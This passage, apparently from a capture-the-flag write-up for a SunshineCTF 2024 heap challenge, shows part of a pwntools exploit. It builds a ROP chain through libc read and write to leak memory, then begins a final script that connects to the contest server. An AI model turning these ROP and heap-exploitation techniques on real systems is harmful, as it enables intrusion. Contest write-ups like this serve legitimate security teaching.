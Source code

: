 ```py
payload += writable_addr
payload += pop_rdx
payload += p64(0x100)
payload += p64(libc.sym.read)

payload += pop_rdi
payload += p64(1)
payload += pop_rsi
payload += writable_addr
payload += pop_rdx
payload += p64(0x100)
payload += p64(libc.sym.write)

write(1, payload)
p.sendlineafter(b'option:', b'5')
```
## Final Code
```py
#!/bin/python3
from pwn import *

context.log_level = 'INFO'
context.terminal = ['remotinator', 'vsplit', '-x']
context.arch = 'amd64'

######################################################################################

process_name = './chall_patched'
elf = context.binary = ELF(process_name)
libc = ELF('./libc.so.6')

HOST = "2024.sunshinectf.games"
PORT = 24002

######################################################################################

gdb_script = f'''
    breakrva 0x1743
    continue
    '''

######################################################################################

def connect():
    if args.REMOTE:
        print(f"[*] Connecting to {HOST} : {PORT}")
        p = remote(HOST, PORT, ssl=False)        
    elif args.GDB:
        print(f'[*] Debugging {elf.path}.')
        p = gdb.debug([elf.path], gdbscript=gdb_script, aslr=False)
    else:
        print(f'[*] Executing {elf.path}.')
        p = process([elf.path])
    return p

def create(size):
    p.sendlineafter(b'option: ', b'1')
    p.sendlineafter(b'-->', str(size).encode())
    
def write(idx, flag):
    p.sendlineafter(b'option: ', b'2')
    p.sendlineafter(b'-->', str(idx).encode())
```
